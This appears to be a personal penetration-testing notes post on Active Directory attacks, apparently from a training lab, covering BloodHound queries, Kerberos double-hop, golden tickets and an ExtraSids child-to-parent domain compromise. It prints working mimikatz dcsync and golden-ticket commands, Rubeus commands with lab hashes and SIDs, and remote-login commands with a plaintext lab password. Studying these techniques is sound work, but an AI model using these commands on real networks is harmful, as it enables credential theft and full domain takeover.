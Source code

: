 ```yaml
---
title: Active Directory notes
author: Zhibeau
date: 2024-01-15 00:51:00 -0400
img_path: https:////raw.githubusercontent.com/Zhibeau/zhibeau.github.io/main/_posts/24_01_15/
categories: [Notes]
tags: [Cybersecurity, Pentest, Active Directory]
---
```


## Privilege Access
Without local admin rights, how to move laterally?

1. RDP
2. WinRM
3. SQL

Typically the first thing I check after importing BloodHound data is:
Does the Domain Users group have local admin rights or execution rights (such as RDP or WinRM) over one or more hosts?

Custom cypher query
Search for WinRM Users
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

## Kerberos Double-Hop

![Understanding Kerberos Double Hop](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/understanding-kerberos-double-hop/ba-p/395463)

![Double Hop](KerberosDoubleHop.png)

## KRBTGT (KerberosTicket Granting Ticket) account

- Function: To encrypt/sign all Kerberos tickets granted within a given domain. Domain controllers use the account's password to decrypt and validate Kerberos tickets.

- **Golden Ticket**: The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain.

## ExtraSids Attack
**child --> parent domain compromise**
Add the SID in the sidHistory attribute of a user, then the user can access the domain with this domain.
![sidHistory](sid-history.png)

### Steps (With an example)

- The KRBTGT hash for the child domain (dcsync attack with a domain admin account)
- The FQDN of the child domain.
```mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt```
**9d765b482771505cbe97411065964d5f**
**LOGISTICS.INLANEFREIGHT.LOCAL**
- The SID for the child domain (can be seen with the previous command) or:
```PS C:\htb> Get-DomainSID```
**S-1-5-21-2806153819-209893948-922872689**
- The name of a target user in the child domain (does not need to exist! We can fake one)
**hacker**
- The SID of the Enterprise Admins group of the root domain.
```PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid```
**S-1-5-21-3842939050-3880317879-2865463114-519**

## Golden ticket creation
```mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt```
```.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt```

## Admin Password Re-Use
For example, there is a bidirectional trust between Domain A and B. Domain A would have a user named adm_bob.smith in the Domain Admins group, and Domain B had a user named bsmith_admin. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

## Login to a DC
```psexec.py FREIGHTLOGISTICS.LOCAL/sapsso@academy-ea-dc03.inlanefreight.local -target-ip 172.16.5.238```
```Enter-PSSession -ComputerName MS01 -Credential (New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "inlanefreight.local\svc_sql", (ConvertTo-SecureString "lucky7" -AsPlainText -Force))```